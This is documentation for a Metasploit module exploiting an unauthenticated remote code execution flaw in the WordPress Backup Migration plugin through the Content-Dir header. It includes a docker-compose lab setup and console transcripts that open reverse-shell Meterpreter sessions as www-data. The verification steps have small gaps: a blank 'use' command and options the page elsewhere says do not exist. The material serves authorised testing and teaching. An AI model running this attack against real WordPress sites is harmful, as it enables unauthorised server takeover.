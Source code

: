 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

## Setup

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:

```
version: "3"
  # Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "5555:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:5555
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
  # Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:5555` and you'll be redirected and asked to setup the WordPress site. This includes
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running.

## Options
No options

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.5.3)

Using `php/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 192.168.1.36
rhosts => 192.168.1.36
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 5555
rport => 5555

msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.36     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      5555             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory


msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 172.18.0.3
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 172.18.0.3:50136) at 2024-08-24 17:04:19 +0200

meterpreter > sysinfo 
Computer    : e409ace0b2a9
OS          : Linux e409ace0b2a9 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid 
Server username: www-data
meterpreter >
```

Using `cmd/linux/http/x6/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > exploit 

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.18.0.3:48014) at 2024-08-24 17:06:58 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 12.5 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
